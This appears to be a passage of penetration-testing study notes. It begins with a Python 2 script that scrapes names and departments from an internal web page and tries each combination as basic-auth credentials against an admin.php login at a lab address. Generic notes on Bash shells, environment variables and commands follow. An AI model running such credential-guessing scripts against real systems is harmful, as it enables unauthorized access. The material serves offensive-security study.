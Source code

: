 ```python
    return output

def findDepts(response):
    parser = bs4(response, 'html.parser')
    names = parser.find_all('td', id='department')
    output = []
    for name in names:
        output.append(name.text)
    return output

def getAuthorized(url, username, password):
    r = requests.get(url, auth=(username, password))
    if str(r.status_code) != '401':
        print "\n[!] Username: " + username + " Password: " + password + " Code: " + str(r.status_code) + "\n"

page = downloadPage("http://172.16.120.120")

names = findNames(page)
uniqNames = sorted(set(names))

depts = findDepts(page)
uniqDepts = sorted(set(depts))

print "[+] Working... "
for name in uniqNames:
    for dept in uniqDepts:
        getAuthorized("http://172.16.120.120/admin.php", name, dept)
```

## Command Line Scripting \(12 items\)

### Bash Shell

* The main non-graphical tool to interact with the operating system is Shell.
* In FreeBSD there is no GUI at all.
* Other notable shells: `ksh`, `zsh`, `dash`.

### Bash Environment

* Upon the start of the shell, the OS checks for the existence of several files as: `~/.bashrc`, `~/.bash_login`, `~/.bash_profile`, `~/.bash_logout`.
* Environment Variables can be viewed by typing `env`.
* `PATH` is a relevant environment variable, which has a format of `[location]:[location]:...:[location]`.
* The `PATH` variable is one of the execution helpers.

### Bash Commands and Programs

* Bash has some built-in commands that provide basic functionality.
* Examples are: `fg`, `echo`, `set`, `while`.
* Most commands that are used in everyday tasks are external mini-programs kept in `PATH` locations \(use `which` to find the real location\).
* `man` displays help about commands.
